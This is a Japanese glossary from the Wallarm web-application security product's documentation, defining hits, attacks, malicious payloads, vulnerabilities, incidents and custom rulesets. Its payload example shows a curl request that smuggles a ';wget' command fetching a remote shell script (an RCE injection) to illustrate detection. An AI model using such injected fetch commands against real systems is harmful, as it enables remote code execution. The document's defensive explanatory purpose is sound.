 # 用語集

この用語集は、Wallarmの主要なエンティティを理解するためのものです。

## ヒット

ヒットは、シリアライズされた悪意のあるリクエスト（オリジナルの悪意のあるリクエストとフィルタリングノードによって追加されたメタデータ）です。例：

![Hit の例](images/user-guides/events/analyze-attack-raw.png)

[ヒットのパラメータ詳細](user-guides/events/analyze-attack.md#analyze-requests-in-an-attack)

## 攻撃

攻撃とは、以下の特徴によってグループ化された単一のヒットまたは複数のヒットです：

* 同じ攻撃タイプ、悪意のあるペイロードが含まれているパラメータ、そしてヒットが送られたアドレス。ヒットは、同じまたは異なるIPアドレスから来ており、同一の攻撃タイプ内で悪意のあるペイロードの値は異なることがあります。

    このヒットのグループ化方法は基本的なもので、すべてのヒットに適用されます。
* 同じ送信元IPアドレス（適切な [トリガー](user-guides/triggers/trigger-examples.md#group-hits-originating-from-the-same-ip-into-one-attack)が有効化されている場合）。他のヒットのパラメータ値は異なることがあります。

    このヒットのグループ化方法は、ブルートフォース、強制ブラウジング、BOLA（IDOR）、リソース越過、データ爆弾、仮想パッチの攻撃タイプを除くすべてのヒットで機能します。

    ヒットがこの方法でグループ化されている場合、 [**偽陽性としてマーク**](user-guides/events/false-attack.md#mark-an-attack-as-a-false-positive)ボタンと[アクティブ検証](about-wallarm/detecting-vulnerabilities.md#active-threat-verification)のオプションは、攻撃に使用できません。

挙げられたヒットのグループ化方法は相互に排他的ではない。ヒットが両方の方法の特性を持っている場合、それらはすべて一つの攻撃にグループ化されます。

単一のヒットを含む攻撃の例：

![一つのヒットを含む攻撃](images/glossary/attack-with-one-hit-example.png)

多数のヒットを含む攻撃の例：

![いくつかのヒットを含む攻撃](images/glossary/attack-with-several-hits-example.png)

## 悪意のあるペイロード

オリジナルのリクエストの一部で、以下の要素を含みます：

* リクエストで検出された攻撃の兆候。同種の攻撃を特徴付けるいくつかの攻撃の兆候がリクエストで検出された場合、最初の兆候だけがペイロードに記録されます。
* 攻撃の兆候のコンテキスト。コンテキストは、検出された攻撃の兆候の前後を囲む一連の記号です。ペイロードの長さが制限されているため、攻撃の兆候が全ペイロード長の場合、コンテキストは省略できます。

例：

* リクエスト：

    ```bash
    curl localhost/?23036d6ba7=%3Bwget+http%3A%2F%2Fsome_host%2Fsh311.sh
    ```
* 悪意あるペイロード：

    ```bash
    ;wget+http://s
    ```

    このペイロードにおける `;wget+`は [RCE](attacks-vulns-list.md#remote-code-execution-rce) 攻撃の兆候で、ペイロードの他の部分は攻撃の兆候のコンテキストです。

攻撃の兆候は[行動的攻撃](about-wallarm/protecting-against-attacks.md#behavioral-attacks)を検出するためには使用されないため、行動的攻撃の一部として送信されたリクエストはペイロードが空になります。

## 脆弱性
脆弱性とは、ウェブアプリケーションの構築や実装時に無視や情報不足から生じた誤りで、情報セキュリティリスクにつながります。

情報セキュリティリスクには以下のものがあります：

* 不正アクセス；例えば、ユーザーデータの読み取りや修正へのアクセス。
* サービス妨害。
* データの破壊等。

インターネットのトラフィックは脆弱性の検出に使うことができ、これがWallarmの機能の一部です。

## セキュリティインシデント

セキュリティインシデントとは脆弱性が悪用された事象のことです。インシデントは確認された脆弱性に対する [攻撃](#attack) です。

インシデントは攻撃と同様に、あなたのシステム外部のエンティティであり、外部インターネットの特性であり、システム自体の特性ではありません。既存の脆弱性に対する攻撃が少数であるにも関わらず、情報セキュリティにおいては最も重要です。Wallarmは既存の脆弱性に対する攻撃を自動的に検出し、それらを個別のオブジェクトとして表示します - インシデント。

## リングバッファ
リングバッファは、単一の固定サイズのバッファを端から端まで接続されているかのように使用するデータ構造です。
[Wikipediaを参照](https://en.wikipedia.org/wiki/Circular_buffer)。

## カスタムルールセット（旧称はLOM）

カスタムルールセットは、WallarmノードがWallarm Cloudからダウンロードするコンパイル済みセキュリティルールのセットです。

カスタムルールを使用すると、トラフィック処理の個別のルールを設定することができます。例えば：

* Wallarm Cloudにアップロードする前に機密データをマスク
* 正規表現ベースの攻撃指数を作成
* アクティブな脆弱性を利用するリクエストをブロックする仮想パッチを適用
* 特定のリクエストの攻撃検出を無効にする等。

カスタムルールセットはデフォルトでは空ではありません。クラウドに登録されたすべてのクライアントのルールが含まれています。例えば、 [**設定 → 一般** タブ](user-guides/settings/general.md)からのフィルタリングモードルールの値等。

[カスタムルールセット詳細](user-guides/rules/intro.md)

## 無効なリクエスト
フィルターノードによってチェックされ、LOMのルールに一致しないリクエスト。

## リバースプロキシ
リバースプロキシは、クライアントの代わりにサーバーからリソースを取得し、それをWebサーバー自体から来たかのようにクライアントへ返すタイプのプロキシサーバーです。
[Wikipediaを参照](https://en.wikipedia.org/wiki/Reverse_proxy)。

## 証明書発行機関
証明書発行機関（CA）はデジタル証明書を発行する機関です。
[Wikipediaを参照](https://en.wikipedia.org/wiki/Certificate_authority)。